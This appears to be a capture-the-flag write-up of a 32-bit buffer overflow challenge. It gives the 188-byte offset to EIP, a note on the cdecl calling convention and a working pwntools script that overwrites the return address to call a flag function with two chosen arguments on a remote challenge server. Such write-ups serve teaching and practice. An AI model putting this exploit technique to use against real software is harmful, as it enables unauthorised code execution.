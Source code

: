 ![alt text](https://i.imgur.com/Xr16qc7.png)


## Bufferoverflow
- 188 bytes until EIP control


---


# Flag Function
![alt text](https://i.imgur.com/1g7Pk9x.png)

```
- flag(int param_1, int param_2)
	- cdecl is the calling convention
```

![alt text](https://i.imgur.com/HLCtmkd.png)

# Vuln function
![alt text](https://i.imgur.com/nSL5IJ7.png)



# Exploit Development 
```python
from pwn import *


context.binary = ELF("./vuln", checksec=True)
#p = process()
p = remote("178.128.46.251", 30138)

# flag addr: 0x80491e2
# if ((param_1 == L'\xdeadbeef') && (param_2 == L'\xc0ded00d'))


payload = b"A"*188              # padding
payload += p32(0x080491e2)      # vuln function
payload += b"fooo"              # dumb addr / filler bytes for eip
payload += p32(0xdeadbeef) + p32(0xc0ded00d)

with open("payload.txt", "w") as file:
        file.write(str(payload))
        file.close()

p.sendline(payload)
print(p.recvall())
```

```
The calling convention of the function we call @ 0x080491e2 needs to be supplied in reverse order followed by an address that will populate the EIP register. In this case, this address will work as a returning address, without supplying one.
```
